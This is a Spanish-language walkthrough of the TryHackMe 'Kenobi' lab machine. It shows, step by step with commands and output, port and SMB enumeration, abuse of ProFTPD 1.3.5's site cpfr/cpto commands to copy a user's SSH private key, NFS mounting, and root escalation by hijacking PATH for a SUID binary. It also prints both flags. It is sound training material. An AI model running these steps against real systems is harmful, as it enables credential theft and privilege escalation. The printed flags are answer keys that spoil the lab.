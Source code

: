 ```yaml
---
title: "tryhackme: Kenobi"
share: false
excerpt: "Tutorial sobre la explotación de una máquina Linux. Enumere Samba para compartir, manipule una versión vulnerable de proftpd y aumente sus privilegios con la manipulación de la variable de ruta. "
share: false
header:
  teaser:  /assets/images/kenobi/logo.jpg
  teaser_home_page: true
categories:
  - tryhackme
tags:
  - FTP
  - SSH
  - SUID
---
```


## Comprovamos que la maquina este iniciada correctamente enviandole un *ping*

```bash
ping -c 1 10.10.37.122
PING 10.10.37.122 (10.10.37.122) 56(84) bytes of data.
64 bytes from 10.10.37.122: icmp_seq=1 ttl=63 time=154 ms

--- 10.10.37.122 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 153.968/153.968/153.968/0.000 ms
```

Como podemos ver, recibio el paquete enviado, ademas, mediante el *ttl* podemos saber que es una maquina  _linux_
tambien podemos usar la utilidad _wichSystem.py_ 

```bash
wichSystem.py 10.10.37.122

10.10.37.122 (ttl -> 63): Linux
```

# Fase 1: Recoleción de información

![descripcion imagene](/assets/images/kenobi/allports.png)

Descripción de los parámetros:

- -p- : Escanea los puertos especificados, en este caso escanea los 65535 puertos.
- -sS : Escanea TCP SYN
- --min-rate: Envía paquetes no mas lentos que el número indicado por segundo en nuestro caso 5000. 
- --open: Muestra solo los puertos abiertos.
- -vvv : Muestra la información mientras se esta realizando el escaneo.
- -Pn : Omite el descubrimiento de host.
- -n : No realiza resolución DNS.
- ip: la ip que queremos escanear
- -oG : Guarda la salida del escaneo en un formato grepeable (no sea util mas adelante)

> Scan the machine with nmap, how many ports are open 

> 7

vemos que tenemos varios puertos abieros, pero nos fijamos primeramente en el port *80* puesto que por _default_ es el usado 
para montar un servidor web

-Solo esta una imagen, y no encontramos nada que nos sera muy util al momento

utilizaremos la herramienta *gobuster* para buscar posibles rutas en el servidor, mientas nos da un resultado seguimos estudiando
los puertos a ver que conseguimos

![imagen gobuster](/assets/images/kenobi/gobuster.png)

luego del escaneo con *gobuster* vamos a la ruta _robots.txt_ que es la que nos llama la atencion

```bash
User-agent: *
Disallow: /admin.html
```
vamos la ruta que encontramos en *robots.txt* pero no encontramos nada que nos llame la atencion.

## nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.210.100

> using the nmap command, how many shares have been found?

> 3

El comando anterior esta utilizando varios _scripts_ de nmap para intenter enumerar posibles usuarios

## obtenemos acceso anonymous e intentermos descargar el archivo log.txt que esta en el directorio

Obtenemos esta respueta gracias a los escaneos que hemos hecho con nmap

> What port is FTP running on?

> 21


## Estas dos soluciones las tenemos previamente con el escaneo con nmap

> What is the version?

> 1.3.5

Ahora vamos a buscar un _exploit_ para la version de *ProFTPD* usando la herramienta *searchsploit*

> How many exploits are there for the ProFTPd running?

> 3

Nos conectaremos a la maquina usando *nc 10.10.98.8 21* y usaremos los comandos

```bash
❯ nc 10.10.98.8 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.98.8]
site cpfr /home/kenobi/.ssh/id_rsa 
350 File or directory exists, ready for destination name
site cpto /var/tmp/id_rsa
250 Copy successful
```

ahora intentaremos realizar una montura en nuestra maquina de los archivos compartidos

```bash
> mkdir mnt
> mount 10.10.98.8:/var mnt/
> cp mnt/tmp/id_rsa . 
```

ahora procederemos a copiar la *id_rsa*

```bash
❯ cp mnt/tmp/id_rsa .
```

cambiamos los permisos a *id_rsa*

```bash
❯ chmod 600 id_rsa
```

procederemos a tratar de conectarnos usando la *id_rsa* que obtuvimos anteriormente

```bash
> ssh -i id_rsa kenobi@10.10.98.8
```

al estar dentro de la maquina procedemos a buscar la _flag_

```bash
> kenobi@kenobi:~$ ls
share  user.txt
> kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899
```

ahora que hemos encontrado la primer *flag* pasamos a buscar la manera de ganar acceso como _superusuario_ 

```bash
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/menu
/bin/su
/bin/ping6
```
como podemos ver, tenemos varias archivos con permisos *SUID*, pero nos llama la atencion el llamado _menu_
ahora vamos a ver que funcion cumple el archivo y como nos podemos aprovechar

```bash

```
partimos de la premisa de que este archivo se ejecuta com permisos *SUID*; Lo que intentaremos sera manipular el PATH para obtener
una _shell_ 

```bash
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
```
- Creamos un archivo curl
- le damos permisos 
- exportamos el path

```bash
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
 # whoami
root
```
ahora que somos *root* solo nos queda encontrar la _flag_

```bash
# cd root
# ls
root.txt
# ls
root.txt
# cat root.txt
177b3cd8562289f37382721c28381f02
```
